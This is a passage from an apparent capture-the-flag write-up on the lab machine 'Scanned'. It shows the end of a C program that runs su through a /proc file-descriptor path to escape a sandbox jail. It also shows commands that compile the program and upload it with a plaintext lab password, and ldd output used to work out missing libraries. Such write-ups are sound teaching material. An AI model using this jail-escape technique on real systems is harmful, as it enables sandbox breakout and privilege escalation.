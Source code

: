         while ((bytesRead = fread(buf, sizeof(buf), 1, run)) > 0) {
            printf("%s", buf);
        }

        pclose(run);
    }



Very much like the original exploit, except this time instead of reading
a file, I'll use `popen` to run a process, and I'll use the `/proc`
trick to get `su` from outside the jail. This time I don't have to worry
about seeing the results through the `log` file, so I'll just print the
results to the screen.

I'll compile this and upload it to Scanned:



    oxdf@hacky$ gcc runsu.c -o runsu
    oxdf@hacky$ sshpass -p 'onedayyoufeellikecrying' scp runsu clarence@10.10.11.141:/dev/shm



#### Run It

If I run this via `sandbox`, it reports that it can't find
`libpam.so.0`:



    clarence@scanned:/var/www/malscanner/sandbox$ ./sandbox /dev/shm/runsu a 
    /proc/1/fd/3/../../../../../../../usr/bin/su: error while loading shared libraries: libpam.so.0: cannot open shared object file: No such file or directory
    Exited
    Kill err: (3)



This is the first of several imports that are required. These imports
are not required by my binary:



    clarence@scanned:/var/www/malscanner/sandbox$ ldd /dev/shm/runsu 
            linux-vdso.so.1 (0x00007ffdaa7fc000)
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f5e6b3b6000)
            /lib64/ld-linux-x86-64.so.2 (0x00007f5e6b587000)



`linux-vdso.so.1` is a virtual file that's not on the disk, but
[actually part of the
kernel](https://stackoverflow.com/questions/58657036/where-is-linux-vdso-so-1-present-on-the-file-system).
`libc.so.6` and `ld-linux-x86-64.so.2` were the two files copied into
the jail.

Looking at `su`, it requires more (the first being `libpam.so.0` which
is where it's failing):


